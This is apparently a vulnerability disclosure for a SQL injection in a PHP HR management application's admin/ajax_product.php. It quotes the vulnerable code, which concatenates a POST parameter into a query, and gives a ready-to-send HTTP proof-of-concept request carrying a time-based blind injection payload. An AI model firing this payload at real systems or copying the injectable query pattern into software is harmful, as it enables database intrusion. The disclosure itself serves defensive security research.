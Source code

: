 ### Vulnerability file address

`admin/ajax_product.php` from line 28,The `$_POST['drop_services']` parameter is controllable and the `$_POST['drop_services']` is not protected from sql injection, line 29 `$statement = $conn->prepare($sql_service1);` ,line 30 `$statement->execute([$_POST['color'],$_POST['size']]);`,line 30 performs a SQL query, causing SQL injection

```php


<?php
//error_reporting(0);
require_once('../assets/constants/config.php');
require_once('../assets/constants/check-login.php');
require_once('../assets/constants/fetch-my-info.php');
/* echo$sql_service1 ="SELECT * FROM tbl_product WHERE id  = 1";
       $statement = $conn->prepare($sql_service1);
 $statement->execute();
                                                             
                                                                
    $service1 = $statement->fetch(PDO::FETCH_ASSOC);
    $data['product']=$service1;
print_r($service1);
*/ 
 
?>

<?php
//include('connect.php');


  if(isset($_POST['drop_services']))
  {

      // print_r($_POST[]);exit;
       $sql_service1 ="SELECT * FROM tbl_product WHERE id  = '".$_POST['drop_services']."' AND delete_status='0' AND color=? AND size=?";
       $statement = $conn->prepare($sql_service1);
 $statement->execute([$_POST['color'],$_POST['size']]);
                                                             
                                                                
    $service1 = $statement->fetch(PDO::FETCH_ASSOC);
 
        /*$result1=$conn->query($sql_service1);  
        $service1 = mysqli_fetch_array($result1);
        */$data['product']=$service1;

        $data['products'] = $statement->fetchAll();

        echo json_encode($data); exit;
  }
?>
```

### POC

```http
POST /CMS/php/_hr_soft/admin/ajax_product.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

drop_services=666' AND (SELECT 6791 FROM (SELECT(SLEEP(5)))BrEc)-- jhnC
```

### Attack results pictures

![image-20250130213227901](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501302132947.png)